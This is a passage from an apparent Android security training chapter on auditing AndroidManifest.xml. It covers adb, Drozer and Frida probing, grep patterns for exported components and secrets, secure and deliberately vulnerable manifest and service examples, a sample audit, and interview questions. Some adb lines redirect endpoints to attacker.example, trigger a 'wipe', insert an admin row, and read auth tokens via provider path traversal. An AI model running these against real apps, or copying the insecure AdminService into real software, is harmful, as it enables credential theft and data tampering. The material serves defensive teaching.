    -a android.intent.action.VIEW -d "https://attacker.example/"

# host — fire a broadcast
adb shell am broadcast -n com.example.target/.ConfigReceiver \
    -a com.example.ACTION_SET_ENDPOINT --es url "http://attacker.example/"

# host — start a service
adb shell am startservice -n com.example.target/.SyncService --es cmd "wipe"

# host — query a provider
adb shell content query --uri content://com.example.target.provider/users
adb shell content query --uri content://com.example.target.provider/users \
    --projection "name,token" --where "1=1"

# host — write through a provider
adb shell content insert --uri content://com.example.target.provider/users \
    --bind name:s:attacker --bind role:s:admin

# host — read a file exposed by a provider
adb shell content read --uri content://com.example.target.provider/files/../../shared_prefs/auth.xml
```

The `am` extras type table, because you will need it constantly:

| Flag | Type | Example |
|---|---|---|
| `--es` | String | `--es key value` |
| `--esn` | String, null | `--esn key` |
| `--ez` | boolean | `--ez key true` |
| `--ei` | int | `--ei key 42` |
| `--el` | long | `--el key 42` |
| `--ef` | float | `--ef key 4.2` |
| `--eu` | URI | `--eu key content://x/y` |
| `--ecn` | ComponentName | `--ecn key pkg/cls` |
| `--eia` | int array | `--eia key 1,2,3` |
| `--esa` | String array | `--esa key a,b,c` |
| `-a` | action | `-a android.intent.action.VIEW` |
| `-c` | category | `-c android.intent.category.BROWSABLE` |
| `-d` | data URI | `-d "myapp://x"` |
| `-t` | MIME type | `-t "image/png"` |
| `-f` | flags (hex) | `-f 0x10000000` |
| `--grant-read-uri-permission` | grant flag | — |

> **⚠️ Warning — the single most important caveat in this chapter**
> `adb shell` runs as UID 2000 with privileges no third-party app has. A successful
> `am start -n com.victim/.NonExportedActivity` **does not prove the component is attacker
> reachable.** The only reliable proof is a second, unprivileged app. Build one:
>
> ```kotlin
> // attacker app — MainActivity.kt
> val i = Intent()
> i.component = ComponentName("com.example.target", "com.example.target.InternalActivity")
> i.putExtra("token", "AAAA")
> try {
>     startActivity(i)
>     Log.i("PoC", "REACHABLE")
> } catch (e: SecurityException) {
>     Log.i("PoC", "BLOCKED: ${e.message}")
> }
> ```
>
> Reporting a finding you proved only from `adb shell` is the fastest way to have a report rejected,
> and it is correct for it to be rejected.

Drozer automates the unprivileged-app part, because the Drozer agent *is* a normal app:

```text
# drozer console
dz> run app.package.attacksurface com.example.target
dz> run app.activity.info -a com.example.target
dz> run app.activity.start --component com.example.target com.example.target.InternalActivity
dz> run app.provider.info -a com.example.target
dz> run app.provider.finduri com.example.target
dz> run app.provider.query content://com.example.target.provider/users
dz> run scanner.provider.injection -a com.example.target
dz> run scanner.provider.traversal -a com.example.target
dz> run app.service.info -a com.example.target
dz> run app.broadcast.info -a com.example.target
```

Drozer's value is precisely that it runs as an ordinary app, so anything it can reach, an attacker
can reach. See [55-MobSF](../55-MobSF/README.md) for the automated-report equivalent and treat its
manifest findings as *candidates* requiring the same verification.

### 7.3 Frida — observing manifest-derived behaviour at runtime

The most valuable manifest-related hooks are the ones that reveal surface the manifest does **not**
describe: dynamically registered receivers, runtime component enabling, and metadata reads.

The chapter ships a complete script at
[`scripts/frida-manifest-runtime.js`](scripts/frida-manifest-runtime.js). The core of it:

```javascript
// frida — node the runtime component surface that the manifest does not show
// Usage: frida -U -f com.example.target -l frida-manifest-runtime.js
Java.perform(function () {

    // 1. Dynamically registered BroadcastReceivers — invisible in the manifest.
    var ContextWrapper = Java.use('android.content.ContextWrapper');
    ContextWrapper.registerReceiver.overload(
        'android.content.BroadcastReceiver', 'android.content.IntentFilter'
    ).implementation = function (recv, filter) {
        console.log('[registerReceiver] (2-arg, EXPORTED on targetSdk<33) ' +
                    (recv ? recv.$className : 'null'));
        dumpFilter(filter);
        return this.registerReceiver(recv, filter);
    };

    ContextWrapper.registerReceiver.overload(
        'android.content.BroadcastReceiver', 'android.content.IntentFilter', 'int'
    ).implementation = function (recv, filter, flags) {
        // RECEIVER_EXPORTED = 0x2, RECEIVER_NOT_EXPORTED = 0x4
        var state = (flags & 0x2) ? 'EXPORTED' : ((flags & 0x4) ? 'NOT_EXPORTED' : 'UNSPECIFIED');
        console.log('[registerReceiver] flags=0x' + flags.toString(16) + ' -> ' + state +
                    ' ' + (recv ? recv.$className : 'null'));
        dumpFilter(filter);
        return this.registerReceiver(recv, filter, flags);
    };

    function dumpFilter(filter) {
        if (!filter) { return; }
        var n = filter.countActions();
        for (var i = 0; i < n; i++) {
            console.log('    action: ' + filter.getAction(i));
        }
    }

    // 2. Components enabled/disabled at runtime — the manifest is not the final word.
    var PM = Java.use('android.app.ApplicationPackageManager');
    PM.setComponentEnabledSetting.implementation = function (cn, state, flags) {
        console.log('[setComponentEnabledSetting] ' + cn.flattenToString() +
                    ' state=' + state + ' (1=ENABLED, 2=DISABLED)');
        return this.setComponentEnabledSetting(cn, state, flags);
    };

    // 3. <meta-data> reads — shows which keys the app actually consumes.
    var Bundle = Java.use('android.os.Bundle');
    Bundle.getString.overload('java.lang.String').implementation = function (k) {
        var v = this.getString(k);
        if (k && (k.indexOf('.') !== -1)) {   // metadata keys are dotted
            console.log('[Bundle.getString] ' + k + ' = ' + v);
        }
        return v;
    };
});
```

Hooking the intent that *arrives* at each component tells you what an attacker can actually deliver:

```javascript
// frida — log every Intent delivered to every Activity, Service and Receiver
Java.perform(function () {
    function describe(intent) {
        if (!intent) { return 'null'; }
        var s = intent.getAction() + ' data=' + intent.getDataString() +
                ' comp=' + (intent.getComponent() ? intent.getComponent().flattenToString() : '-');
        var ex = intent.getExtras();
        if (ex !== null) {
            var keys = ex.keySet().toArray();
            for (var i = 0; i < keys.length; i++) {
                s += '\n    extra[' + keys[i] + '] = ' + ex.get(keys[i]);
            }
        }
        return s;
    }

    var Activity = Java.use('android.app.Activity');
    Activity.onCreate.overload('android.os.Bundle').implementation = function (b) {
        console.log('[Activity.onCreate] ' + this.$className + '\n  ' + describe(this.getIntent()));
        return this.onCreate(b);
    };

    var Receiver = Java.use('android.content.BroadcastReceiver');
    // Hook concrete subclasses instead where possible; this catches the common case.
    Java.enumerateLoadedClassesSync().forEach(function (name) {
        try {
            var k = Java.use(name);
            if (k.onReceive) {
                k.onReceive.overload('android.content.Context', 'android.content.Intent')
                 .implementation = function (ctx, intent) {
                    console.log('[onReceive] ' + name + '\n  ' + describe(intent));
                    return this.onReceive(ctx, intent);
                 };
            }
        } catch (e) { /* not a receiver */ }
    });
});
```

Objection wraps several of these:

```text
# objection
$ objection -g com.example.target explore
com.example.target on (…) [usb] # android hooking list activities
com.example.target on (…) # android hooking list services
com.example.target on (…) # android hooking list receivers
com.example.target on (…) # android hooking watch class_method android.content.ContextWrapper.registerReceiver
com.example.target on (…) # android intent launch_activity com.example.target.InternalActivity
com.example.target on (…) # android intent launch_service com.example.target.SyncService
```

### 7.4 Verifying deep links end to end

```bash
# host — 1. does the app claim the link?
adb shell pm get-app-links com.example.target

# host — 2. what would the system do with it?
adb shell pm resolve-activity --brief \
    -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE \
    -d "https://app.example.com/open/1"

# host — 3. deliver it exactly as a browser would
adb shell am start -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE \
    -d "https://app.example.com/open/1?next=https://attacker.example/"

# host — 4. fetch the verification file the platform checks
curl -s https://app.example.com/.well-known/assetlinks.json | python3 -m json.tool
```

Then confirm the *hosted* file lists the app's real signing certificate digest:

```bash
# host — the SHA-256 of the signing certificate, in the colon-separated form assetlinks.json uses
apksigner verify --print-certs target.apk | grep -i 'SHA-256 digest'
```

If `pm get-app-links` reports anything other than `verified` for a domain, the `<intent-filter>` is
an ordinary deep link and a competing app can register it. That is your finding.

### 7.5 Logcat as a manifest oracle

The platform tells you loudly when a manifest-derived check fails, and those messages are the fastest
confirmation you will get:

```bash
# host — watch for permission and export denials while you probe
adb logcat -c
adb logcat | grep -Ei 'Permission Denial|SecurityException|not exported|requires.*permission|Unable to start'
```

| Message | Meaning |
|---|---|
| `Permission Denial: starting Intent { ... } from ProcessRecord{...} not exported from uid 10xxx` | `exported="false"` and the caller is a different UID. Your finding is closed. |
| `Permission Denial: ... requires com.example.permission.X` | Exported but permission-gated. Now check that permission's `protectionLevel`. |
| `java.lang.SecurityException: Permission Denial: opening provider ... from ProcessRecord{...} requires ...` | Provider gate. |
| `java.lang.SecurityException: Permission Denial: reading com.example.Provider uri content://... requires ...` | Read permission enforced. |
| `Attempt to invoke virtual method ... on a null object reference` right after your intent | The component **is** reachable and crashed on your input — often the start of a better finding. |
| `Unable to start service Intent { ... }: not found` | The component name is wrong, or the class was renamed by R8 and you used the pre-obfuscation name. |

> **🔍 Pentester's Note**
> A crash caused by your intent is not a dead end. It means the component accepted the intent and
> dereferenced an attacker-controlled value. Chase it: add the extra it wanted, and see how far you
> get. Many high-severity findings begin as a `NullPointerException` in logcat.

---

## 8. Static Analysis

### 8.1 The extraction sequence

```bash
# host — 1. identity and hash first, always
sha256sum target.apk
apksigner verify -v --print-certs target.apk

# host — 2. the platform's own parser
aapt2 dump xmltree --file AndroidManifest.xml target.apk > manifest-aapt2.txt
aapt2 dump badging target.apk > badging.txt
aapt2 dump permissions target.apk

# host — 3. an independent decoder, with resources so @refs resolve
apktool d -f target.apk -o work
# work/AndroidManifest.xml  ← readable XML
# work/res/xml/             ← the referenced config files

# host — 4. JADX for the code that the manifest points at
jadx -d jadx-out target.apk
```

### 8.2 Grep patterns that find real issues

```bash
# host — run all of these against work/AndroidManifest.xml

# Explicitly exported components
grep -nE 'android:exported="true"' work/AndroidManifest.xml

# Components with an intent-filter but NO exported attribute
#   (exported by default on targetSdk < 31 — the invisible finding)
python3 - <<'PY'
import re, sys
x = open('work/AndroidManifest.xml', encoding='utf-8').read()
for m in re.finditer(r'<(activity|activity-alias|service|receiver)\b[^>]*?>(.*?)</\1>', x, re.S):
    tag, body = m.group(1), m.group(2)
    head = m.group(0).split('>', 1)[0]
    if '<intent-filter' in body and 'android:exported' not in head:
        name = re.search(r'android:name="([^"]+)"', head)
        print(f'{tag}: {name.group(1) if name else "?"}  -> exported BY DEFAULT')
PY

# activity-alias — audited separately, always
grep -nE '<activity-alias' -A6 work/AndroidManifest.xml

# Providers and their permission posture
grep -nE '<provider' -A10 work/AndroidManifest.xml

# path-permission and grant-uri-permission children
grep -nE '<(path-permission|grant-uri-permission)' work/AndroidManifest.xml

# Custom permissions and their protection levels (missing attribute == normal!)
grep -nE '<permission\b' -A4 work/AndroidManifest.xml

# The application-level danger flags
grep -nE 'android:(debuggable|allowBackup|usesCleartextTraffic|testOnly|networkSecurityConfig|fullBackupContent|dataExtractionRules|requestLegacyExternalStorage|sharedUserId|appComponentFactory|hasFragileUserData|allowClearUserData)' work/AndroidManifest.xml

# Instrumentation and profileable — at the BOTTOM of the file
grep -nE '<(instrumentation|profileable)' work/AndroidManifest.xml

# Deep links
grep -nE 'android:scheme|android:host|autoVerify' work/AndroidManifest.xml

# Metadata that might hold a secret
grep -nE '<meta-data' work/AndroidManifest.xml | grep -Ei 'key|secret|token|password|api|client'

# High-signal permissions
grep -nE 'uses-permission' work/AndroidManifest.xml | grep -Ei \
  'INSTALL_PACKAGES|QUERY_ALL_PACKAGES|SYSTEM_ALERT_WINDOW|BIND_ACCESSIBILITY|BIND_DEVICE_ADMIN|BIND_NOTIFICATION_LISTENER|READ_SMS|RECEIVE_SMS|MANAGE_EXTERNAL_STORAGE|PACKAGE_USAGE_STATS|WRITE_SECURE_SETTINGS|RECORD_AUDIO|CAMERA|ACCESS_FINE_LOCATION'

# Task hijacking configuration
grep -nE 'taskAffinity|launchMode|allowTaskReparenting' work/AndroidManifest.xml

# Lock-screen surface
grep -nE 'showWhenLocked|turnScreenOn|showOnLockScreen|directBootAware' work/AndroidManifest.xml
```

### 8.3 The referenced files you must open

A manifest is a set of pointers. These are the ones that matter, and they are missed constantly:

| Manifest reference | File to read | What you are looking for |
|---|---|---|
| `android:networkSecurityConfig="@xml/nsc"` | `res/xml/nsc.xml` | `cleartextTrafficPermitted="true"`, `<certificates src="user"/>`, `<debug-overrides>` shipped to production, pin sets and their expiry |
| `android:fullBackupContent="@xml/backup_rules"` | `res/xml/backup_rules.xml` | What is *not* excluded |
| `android:dataExtractionRules="@xml/data_rules"` | `res/xml/data_rules.xml` | `<cloud-backup>` and `<device-transfer>` treated separately |
| `<meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>` | `res/xml/file_paths.xml` | `<root-path path="/"/>`, `<external-path path="."/>`, overly broad `<files-path>` |
| `<meta-data android:name="android.accessibilityservice" .../>` | `res/xml/accessibility_*.xml` | `canRetrieveWindowContent`, `canPerformGestures`, `packageNames` |
| `<meta-data android:name="android.app.device_admin" .../>` | `res/xml/device_admin*.xml` | `<wipe-data/>`, `<force-lock/>`, `<reset-password/>` |
| `<meta-data android:name="android.accounts.AccountAuthenticator" .../>` | `res/xml/authenticator.xml` | The account type — a cross-app credential surface |
| `<meta-data android:name="android.app.searchable" .../>` | `res/xml/searchable.xml` | Suggestion authority — another provider |
| `android:theme="@style/X"` on a sensitive Activity | `res/values/styles.xml` | `windowIsTranslucent`, `windowShowWallpaper`, disabled touch filtering |
| `<uses-permission>` custom names | Other apps on the device | Who defines it, at what level |

```bash
# host — dump every referenced res/xml file at once
for f in work/res/xml/*.xml; do echo "===== $f"; cat "$f"; done
```

### 8.4 Gradle and source-level analysis

With source access, several manifest values are not in the manifest at all:

```bash
# host, in a source project
grep -rnE 'minSdk|targetSdk|compileSdk|applicationId|namespace' --include='build.gradle*' .
grep -rnE 'manifestPlaceholders' --include='build.gradle*' .
grep -rn 'debuggable' --include='build.gradle*' .
grep -rn 'tools:node|tools:replace|tools:remove|tools:overrideLibrary' --include='AndroidManifest.xml' .
find . -name 'AndroidManifest.xml' -not -path './build/*'   # main, debug, release, flavours
cat app/build/outputs/logs/manifest-merger-*-report.txt      # who contributed what
```

`manifestPlaceholders` deserves a specific mention: values like `${applicationId}`,
`${hostName}`, `${API_KEY}` are substituted at build time, so the source manifest can contain a
placeholder while the shipped APK contains a live secret. Always audit the built artefact, not the
source.

### 8.5 Automated tools and their failure modes

| Tool | What it gives you | Where it fails |
|---|---|---|
| **MobSF** | A complete component/permission inventory and a rules-based finding list | Reports every exported component at the same severity; misses `activity-alias` semantics; does not resolve custom `protectionLevel`; cannot know what a component does |
| **apkleaks / trufflehog** | Secret candidates including `<meta-data>` values | Enormous false-positive rate; no validation |
| **Android Lint** | Merge conflicts, missing `exported`, insecure config | Source-only; misses the shipped artefact |
| **`aapt2 dump permissions`** | The requested permission list | No protection levels for custom permissions |
| **Drozer** | Reachability from an unprivileged app — the thing that matters | Needs an agent installed; some modules are dated |
| **jadx** | Code behind the manifest entries | Decompilation errors on heavily obfuscated code |
| **This chapter's `manifest-audit.py`** | The §5.6 checklist applied mechanically, with severities and reasoning | Still cannot judge impact — that is your job |

> **⚠️ Warning**
> No tool can tell you whether an exported component is a vulnerability, because that depends
> entirely on what the component does. Every automated manifest finding is a **lead**. The value you
> add as a human is triage and proof.

---

## 9. Examples

All example files live in [`examples/`](examples/).

### 9.1 Simple — a minimal, correctly hardened manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<!-- examples/secure-manifest.xml (excerpt) -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android">

    <uses-permission android:name="android.permission.INTERNET"/>

    <application
        android:name=".App"
        android:allowBackup="false"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:networkSecurityConfig="@xml/network_security_config"
        android:usesCleartextTraffic="false"
        android:taskAffinity=""
        android:label="@string/app_name"
        android:theme="@style/Theme.App">

        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:taskAffinity=""
            android:launchMode="singleTask">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

        <activity
            android:name=".SettingsActivity"
            android:exported="false"/>

    </application>
</manifest>
```

Every decision here is deliberate: only the launcher Activity is exported (and it must be); backup is
off with a modern rules file present as belt-and-braces; cleartext is off both by attribute and by
config; task affinity is empty app-wide, closing the task-hijacking class; `SettingsActivity` is
explicitly `exported="false"` rather than relying on a default.

### 9.2 Intermediate — a provider done correctly and a provider done wrongly

```xml
<!-- WRONG — examples/vulnerable-manifest.xml (excerpt) -->
<provider
    android:name=".UserProvider"
    android:authorities="com.example.vulnerable.users"
    android:exported="true"
    android:readPermission="com.example.permission.READ_USERS"
    android:grantUriPermissions="true"/>

<permission android:name="com.example.permission.READ_USERS"/>
<!-- protectionLevel omitted → defaults to "normal" → granted to anyone who asks -->
```

Three defects in five lines. The provider is exported. `writePermission` is absent, so **write is
completely unprotected** even though read appears to be gated. The gating permission has no
`protectionLevel`, so it defaults to `normal` and any app obtains it by declaring
`<uses-permission android:name="com.example.permission.READ_USERS"/>`. And `grantUriPermissions="true"`
with no `<grant-uri-permission>` child means any URI under the authority can be handed out.

```xml
<!-- RIGHT -->
<provider
    android:name=".UserProvider"
    android:authorities="${applicationId}.users"
    android:exported="true"
    android:readPermission="com.example.permission.READ_USERS"
    android:writePermission="com.example.permission.WRITE_USERS"
    android:grantUriPermissions="false"/>

<permission android:name="com.example.permission.READ_USERS"
            android:protectionLevel="signature"/>
<permission android:name="com.example.permission.WRITE_USERS"
            android:protectionLevel="signature"/>
```

If the provider genuinely needs to serve *other vendors'* apps, `signature` will not work, and the
correct answer is a `dangerous` permission with a clear user-facing description, plus in-code
authorisation using `Binder.getCallingUid()` and `PackageManager.getPackagesForUid()` — not a
`normal` permission.

### 9.3 Advanced — an exported service that is a full RPC endpoint

```xml
<!-- examples/vulnerable-manifest.xml (excerpt) -->
<service
    android:name=".AdminService"
    android:exported="true">
    <intent-filter>
        <action android:name="com.example.vulnerable.ADMIN"/>
    </intent-filter>
</service>
```

```java
// examples/AdminService.java — the code behind that manifest entry
public class AdminService extends Service {

    private final IAdmin.Stub mBinder = new IAdmin.Stub() {
        @Override
        public String getSessionToken() {
            // No caller check at all. Every bound client gets the token.
            return Prefs.get(AdminService.this, "auth_token");
        }

        @Override
        public void setApiEndpoint(String url) {
            // Attacker-controlled server URL, persisted.
            Prefs.put(AdminService.this, "api_base", url);
        }

        @Override
        public void wipeLocalData() {
            Storage.wipe(AdminService.this);
        }
    };

    @Override
    public IBinder onBind(Intent intent) { return mBinder; }
}
```

The manifest exported the service; the code exposed three privileged operations behind it with no
authorisation. The fix has two halves, and **both are required**:

```xml
<service android:name=".AdminService" android:exported="false"/>
```

```java
// If it must remain reachable by a sibling app, enforce per-call:
private void requireTrustedCaller() {
    int uid = Binder.getCallingUid();
    if (uid == Process.myUid()) return;
    String[] pkgs = getPackageManager().getPackagesForUid(uid);
    if (pkgs == null) throw new SecurityException("unknown caller");
    for (String p : pkgs) {
        if (SignatureUtil.hasSameSigningCertificate(this, p)) return;
    }
    throw new SecurityException("caller " + uid + " not trusted");
}
```

Note the structure: the manifest closes the door, and the code checks the identity of anyone who is
let through anyway. Manifest-only protection gives you one decision for the whole interface; code
checks give you one per operation.

### 9.4 Real application — auditing a shipped e-commerce app's manifest

A realistic composite (all names fictional) showing what a real audit output looks like.

```text
Package:        com.shop.example
versionCode:    8421   versionName: 12.3.0
minSdk: 24      targetSdk: 30      compileSdk: 33
Signer:         CN=Shop Inc, SHA-256: 3a:9f:…
Components:     41 activities (7 exported), 12 services (2 exported),
                18 receivers (9 exported), 6 providers (1 exported)
Of those, 27 components have class names outside com.shop.* → SDK-contributed
```

| # | Finding | Evidence | Severity |
|---|---|---|---|
| 1 | `targetSdk=30` — components with intent filters are exported by default; `PendingIntent` mutability unchecked | `<uses-sdk>` | Medium |
| 2 | `com.shop.example.checkout.PaymentWebActivity` exported with `BROWSABLE` filter, custom scheme `shopapp://`, no `autoVerify` | manifest + `pm get-app-links` | High — scheme is interceptable and the Activity loads the URI into a WebView |
| 3 | `com.shop.example.debug.DevSettingsActivity` exported, no permission; switches API base URL | `am start` + on-device confirmation with an unprivileged PoC app | High |
| 4 | `<provider android:authorities="com.shop.example.cache">` exported, `readPermission` present at `protectionLevel="normal"` | `pm list permissions -f` | High |
| 5 | `android:allowBackup="true"`, no `fullBackupContent`, `shared_prefs/session.xml` contains a refresh token | `adb backup` on an Android 10 device | High |
| 6 | `<meta-data android:name="com.shop.sdk.PARTNER_SECRET" android:value="pk_live_…"/>` — validated as a live credential | manifest + a request to the partner API | Critical |
| 7 | `com.thirdparty.push.PushReceiver` exported with no permission, contributed by the push SDK, acts on a `url` extra | manifest attribution + `am broadcast` | High |
| 8 | Default `taskAffinity` on the launcher Activity with `launchMode="singleTask"` | manifest + two-app PoC | Medium |
| 9 | `<instrumentation android:targetPackage="com.shop.example">` present in the store build | manifest, bottom of file | High |
| 10 | `QUERY_ALL_PACKAGES` requested | manifest | Low (privacy/policy) |

Notice that the two highest-severity findings (6 and 3) came from parts of the manifest that a
`grep exported=true` would never have surfaced, and that finding 9 is at the bottom of the file.

### 9.5 Enterprise application — an MDM-managed app

Enterprise apps add manifest surface that consumer apps do not have, and it is high value.

```xml
<!-- examples/enterprise-manifest.xml (excerpt) -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android">

    <uses-permission android:name="android.permission.BIND_DEVICE_ADMIN"/>

    <application android:name=".EnterpriseApp"
                 android:allowBackup="false"
                 android:networkSecurityConfig="@xml/nsc_pinned">

        <!-- Device admin receiver: system-bound, so exported must be true,
             and the BIND_ permission is what makes that safe. -->
        <receiver android:name=".AdminReceiver"
                  android:exported="true"
                  android:permission="android.permission.BIND_DEVICE_ADMIN">
            <meta-data android:name="android.app.device_admin"
                       android:resource="@xml/device_admin"/>
            <intent-filter>
                <action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>
            </intent-filter>
        </receiver>

        <!-- Managed configuration: the EMM writes this, the app reads it. -->
        <meta-data android:name="android.content.APP_RESTRICTIONS"
                   android:resource="@xml/app_restrictions"/>

        <!-- Cross-profile provider, gated by a signature permission
             shared with the companion app. -->
        <provider android:name=".PolicyProvider"
                  android:authorities="${applicationId}.policy"
                  android:exported="true"
                  android:readPermission="com.enterprise.permission.READ_POLICY"
                  android:writePermission="com.enterprise.permission.WRITE_POLICY"
                  android:grantUriPermissions="false"/>
    </application>

    <permission android:name="com.enterprise.permission.READ_POLICY"
                android:protectionLevel="signature"/>
    <permission android:name="com.enterprise.permission.WRITE_POLICY"
                android:protectionLevel="signature"/>
</manifest>
```

What to audit here that you would not on a consumer app:

| Item | Question |
|---|---|
| `@xml/device_admin` | Which policies are requested? `<wipe-data/>`, `<reset-password/>`, `<force-lock/>`, `<disable-camera/>` each have real user impact and each should be justified. |
| `@xml/app_restrictions` | The managed-configuration schema. Are security-relevant settings (server URL, certificate pinning toggle, root-detection toggle) exposed as restrictions the EMM administrator can change? If so, the EMM becomes part of the attack surface. |
| `BIND_DEVICE_ADMIN` on the receiver | This is the correct pattern: the receiver is exported because the *system* binds to it, and the `BIND_` permission is held only by the system. Do **not** report it as an exported-component finding — recognising this is a hallmark of an experienced auditor. |
| Signature permissions on the provider | Correct, provided the companion app really is signed by the same key. Verify with `apksigner` on both APKs. |
| `android:networkSecurityConfig` | Enterprise apps often pin; check whether the pin set has an expiry date, and whether `<debug-overrides>` shipped. |
| Work-profile behaviour | Test in a work profile (`adb shell pm create-user --profileOf 0 --managed Work`). Cross-profile intent behaviour differs and is frequently untested by the developer. |

> **🔍 Pentester's Note**
> `android:permission="android.permission.BIND_*"` on an exported component is the *correct*
> configuration for system-bound components: `BIND_DEVICE_ADMIN`, `BIND_ACCESSIBILITY_SERVICE`,
> `BIND_NOTIFICATION_LISTENER_SERVICE`, `BIND_JOB_SERVICE`, `BIND_INPUT_METHOD`,
> `BIND_VPN_SERVICE`, `BIND_WALLPAPER`, `BIND_QUICK_SETTINGS_TILE`, `BIND_AUTOFILL_SERVICE`. Only
> the system holds these permissions. An exported component protected by one of them is not a
> finding; the *absence* of the `BIND_` permission on such a component **is** a finding, because any
> app could then bind to it.

---

## 10. Common Interview Questions

### Beginner

**Q: What is `AndroidManifest.xml` and why does it exist?**
It is the declaration of everything an app intends to do, parsed by the platform before any app code
runs. It exists so that security decisions — which components are reachable, which permissions are
held, which sandbox applies — are made from a static, machine-readable document rather than from
running untrusted code.

**Q: Is the manifest inside an APK a text file?**
No. It is Android Binary XML: a chunked binary format with a shared string pool where attributes are
keyed by resource ID. `aapt2 dump xmltree` or `apktool` convert it back to something readable.

**Q: What does `android:exported` do?**
It controls whether components in *other* applications may address this component. `true` means any
app on the device may send it an `Intent` or bind to it.

**Q: Which components are exported if you write no `exported` attribute at all?**
Any activity, service or receiver with at least one `<intent-filter>` is exported; without a filter
it is not. Providers default to not exported for `targetSdk` 17 and above. From `targetSdk` 31 the
attribute is mandatory for filtered components — the build fails without it.

**Q: What is the difference between `minSdkVersion`, `targetSdkVersion` and `compileSdkVersion`?**
`minSdk` is the oldest platform the app installs on. `targetSdk` is the platform whose default
behaviours the app has opted into. `compileSdk` is a build-time-only setting controlling which APIs
the compiler can see; it does not appear in the manifest and has no runtime effect.

### Intermediate

**Q: An app declares a custom permission and uses it to protect a service. What do you check?**
Its `protectionLevel`. If it is absent the level is `normal`, which means any app is granted it
automatically by declaring `<uses-permission>` — so the service is unprotected. Confirm on-device
with `adb shell pm list permissions -f`.

**Q: A component is `exported="false"` but you can start it with `adb shell am start`. Is it a
finding?**
No. `adb shell` runs as UID 2000 and holds privileges that let it start components a normal app
cannot. Reproduce from an unprivileged app before reporting.

**Q: Explain `<activity-alias>` and why it matters to an auditor.**
It is a second entry point to an existing Activity with its own independent `exported` and
`permission` attributes. A locked-down Activity can be fully reachable through a permissive alias, so
an audit that only enumerates `<activity>` elements misses it.

**Q: What is `taskAffinity` and how is it abused?**
It names the task an Activity prefers to join; it defaults to the package name. A malicious app can
declare the victim's affinity with `launchMode="singleTask"`, create that task, and later have the
system bring its own Activity forward when the user launches the victim — the StrandHogg class of
attack. Mitigate with `android:taskAffinity=""`.

**Q: The app has `allowBackup="true"`. Walk me through assessing it.**
Determine the platform behaviour first (`adb backup` is restricted on newer releases and for apps
targeting 31+). Read `fullBackupContent` or `dataExtractionRules` to see what is excluded, treating
cloud backup and device-transfer separately. Then actually enumerate the private data directory and
identify what would leave the device. The severity comes from the data, not from the attribute.

**Q: What does `<path-permission>` do?**
It adds an *alternative* permission for URIs matching a path rule. A caller who satisfies either the
component permission or a matching path permission is allowed, so it can widen rather than restrict
access; and if the provider has no component-level permission, paths matching no rule are open by
default.

### Senior

**Q: Trace what happens between an attacker app calling `startActivity` and the victim's Activity
appearing.**
The call goes over Binder to `ActivityTaskManagerService`, carrying the caller's UID and PID supplied
by the kernel binder driver. The intent is resolved against `PackageManagerService`'s parsed
component records. If the caller's UID differs from the target's, `ActivityInfo.exported` is checked;
if false, a `SecurityException` is thrown unless the caller holds a system privilege such as
`START_ANY_ACTIVITY`. If exported and `ActivityInfo.permission` is set, the caller's granted
permissions are checked. Background activity launch restrictions apply from Android 10. Only then
does `ActivityStarter` apply launch mode and task rules and call back into the target process, where
`ActivityThread` instantiates the Activity.

**Q: Why do you cross-check `apktool` output against `aapt2` and `dumpsys`?**
Because they are three different parsers of an attacker-controlled binary format. `apktool` and
similar tools are independent reimplementations of AXML; the platform uses `ResXMLTree` from
`libandroidfw`, which `aapt2` shares. Malformed AXML can make them disagree — that is a documented
malware evasion technique — and if they disagree, the disagreement itself is a finding.

**Q: A library injected a `<provider>` into the merged manifest. How do you find it, attribute it,
and get it removed?**
Compare the shipped APK's component list against the classes under the app's own package prefix; the
outliers came from dependencies. With source access, `manifest-merger-<variant>-report.txt` names the
contributing AAR for every node, and Android Studio's Merged Manifest view shows the same. Removal is
`tools:node="remove"` on a matching element in the app's own manifest, or an `android:exported="false"`
override with `tools:replace="android:exported"`.

**Q: An app targets API 30 and its `PendingIntent` usage is unaudited. Why does that matter?**
Below `targetSdk` 31 a `PendingIntent` created without `FLAG_IMMUTABLE` is mutable. If the app hands
one to another app — via a notification, a slice, a widget, or an `Intent` extra — the recipient can
fill in unset fields (component, data, extras) and cause the *creating* app's identity and permissions
to perform the resulting action. The manifest's `targetSdk` is what tells you the platform is not
enforcing the choice for you.

**Q: How would you determine whether an exported component finding is exploitable in the real
world?**
Build an unprivileged PoC app that performs the interaction. Confirm the component is reachable, then
determine whether the interaction produces a security-relevant effect: data disclosure, state change,
authentication bypass, or a chain into another component. Establish the preconditions — does the
attacker app need to be in the foreground, does the victim need to be logged in, does the user need
to interact. Then write the finding with the preconditions stated, because that is what determines
severity.

### Staff Engineer

**Q: Design a CI gate that prevents insecure manifests from shipping.**
Parse the *merged* manifest for each release variant, not the source manifest. Assert: no
`debuggable`, no `testOnly`, no `<profileable android:shell="true">`, no `<instrumentation>`,
`allowBackup` false or a data-extraction rules file present, `usesCleartextTraffic` not true, a
network security config present with no `<debug-overrides>` or user trust anchors, every custom
permission has an explicit `protectionLevel` that is not `normal`, and the exported-component set
matches a checked-in allowlist so that any newly-exported component — including one injected by a
dependency bump — fails the build and requires a human to add it to the allowlist with a
justification. Emit the merger report as a build artefact so that reviewers can attribute new nodes.
Run the gate on the artefact that will actually be uploaded, after all merging and shrinking.

**Q: Your app must expose data to a partner's app. Compare the mechanisms.**
A `signature` permission is out because the signing keys differ. Options: (1) a `dangerous` custom
permission with a clear user-facing prompt — honest but the user is the control and users accept
everything; (2) `knownSigner` protection level (API 31+) listing the partner's certificate digest —
strong, but only on modern platforms and it requires a coordinated release when the partner rotates
keys; (3) no manifest permission, with in-code verification of `Binder.getCallingUid()` against
`PackageManager` signing certificates — works on all versions, keeps the policy in code where it can
be updated, but every entry point must remember to call it; (4) URI permission grants issued only in
response to a user action — least privilege but a more complex integration. The right answer usually
combines (3) with narrow, non-exported components and explicit grants.

**Q: `targetSdk` upgrades are being deferred because they break things. Make the security case.**
